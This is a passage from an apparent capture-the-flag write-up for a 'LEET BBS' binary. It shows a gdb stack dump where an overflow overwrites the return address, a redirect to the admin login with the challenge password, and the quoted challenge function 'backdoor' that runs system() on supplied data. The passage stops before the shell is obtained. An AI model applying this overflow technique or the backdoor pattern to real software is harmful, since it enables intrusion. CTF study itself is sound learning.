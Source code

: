 ```gdb
wdb> ni
0x4010fc in serve_bbs ()
wdb> x/22gx $rsp
0x7fffffffed20: 0x3d3d3d3d3d3d3d0a    0x414141414141205d
0x7fffffffed30: 0x4141414141414141    0x4141414141414141
0x7fffffffed40: 0x4141414141414141    0x3d3d3d3d3d3d5b20
0x7fffffffed50: 0x4242424242420a3d    0x4242424242424242
0x7fffffffed60: 0x4242424242424242    0x4242424242424242
0x7fffffffed70: 0x4242424242424242    0x4242424242424242
0x7fffffffed80: 0x4242424242424242    0x4242424242424242
0x7fffffffed90: 0x4242424242424242    0x4242424242424242
0x7fffffffeda0: 0x4242424242424242    0x4242424242424242
0x7fffffffedb0: 0x4242424242424242    0x4242424242424242
0x7fffffffedc0: 0x0043434343434343    0x0000000000400bce
```
Once we press continue, we need to exit the program to cause the program to return, but this time we get redirected to the admin login prompt:

```gdb
Enter choice:
>> 2
Exiting!
Thank you for visiting /\ LEET BBS /\
+------=[ ADMIN LOGIN ]=------+
| Enter password to continue: |
+-----------------------------+
>> l0ln0onewillguessth1s
+---------------------------------------+
| Profile Status Upgraded To [10] Admin |
+---------------------------------------+
Press enter to continue...
```
# Solving the Challenge

We have made a big step forward in getting code exeution through a write primitive to allow us to bypass the restriction to acess the admin page. To solve the challenge however, we need to obtain a shell and capture the flag. 


Recall back in the code review earlier, there was a function called `backdoor`:

```c
void backdoor(int code, char* data)
{
    if (code == 1)
        system(data);
    if (code == 2)
        g_is_admin = 1;
    if (code == 3)
        exit(2);
}
```
